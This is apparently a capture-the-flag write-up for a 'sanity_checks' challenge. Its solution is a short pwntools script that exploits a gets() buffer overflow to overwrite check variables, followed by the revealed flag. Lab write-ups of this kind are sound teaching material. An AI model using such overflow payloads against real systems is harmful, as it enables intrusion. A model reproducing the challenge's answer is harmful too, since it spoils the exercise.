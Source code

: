 #### Challenge:

I made a [program](./checks ":ignore") ([source](./checks.c ":ignore")) to protect my flag. On the off chance someone does get in, I added some sanity checks to detect if something fishy is going on. See if you can hack me at `/problems/2021/sanity_checks` on the shell server, or connect with `nc shell.actf.co 21303`.

---

#### Solution:

We are given a binary and it's source code. In the code we can see function that prints the flag, but it won't run because there is set of conditions that check for specific values on variables that are all set to `0` and cannot be changed by "normal" means. Luckily for us, before the conditions, there is `gets` buffer overflow vulnerability, so we can set them right.

```python
#!/usr/bin/env python

from pwn import *
import struct

r = remote('shell.actf.co', 21303)

# r = process('./checks')


print(r.recvuntil("Enter the secret word: ").decode('utf-8').strip())

payload = b"password123\0" + b'A'*52 + b'B'*12 + struct.pack('<I',0x11) + struct.pack('<I',0x3d) + struct.pack('<I',0xf5) + struct.pack('<I',0x37) + struct.pack('<I',0x32)


print(payload)
r.sendline(payload)

print(r.recvline().decode('utf-8').strip())
print(r.recvline().decode('utf-8').strip())
```

---

<details><summary>FLAG:</summary>

```text
actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}
```

</details>
<br/>
